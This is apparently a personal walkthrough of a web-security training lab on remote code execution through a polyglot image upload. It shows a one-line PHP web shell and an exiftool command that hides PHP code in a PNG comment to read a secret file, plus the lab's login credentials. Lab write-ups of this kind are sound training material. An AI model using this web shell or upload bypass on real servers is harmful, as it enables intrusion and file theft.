








>> Lab: Remote code execution via polyglot web shell upload

---
**Vuln**
-  This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code. 

**Goal**
-  upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner. 

**Creds**
- `wiener:peter`

---

### Steps:
1. Open The Lab And Login With creds ...
   
2. simplly try to upload php payload file 
   ```php
   <?php echo shell_exec($_GET['cmd']); ?>
   ```
   - but lab block this request
   - 

3. so i will try to some bypass techniques 
   - so is uploaded 
   - 
   - and render in browser 
   - but i think cmd not execute 
   - 
  
4. and Try Polyglot technique 
   - make polyglot any png/jpg file with exif tool
   - 
  ```Tool command
      - exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" cat.png -o polyglot.php
  ```
  - upload polyglot.php file
  - 
  - and this is successfully uploaded
  - 
  - back to account 
  - and right click on avatar open in new tab 
  - and our key is 
  - 
5. Submit key and solve the lab successfully
   - 
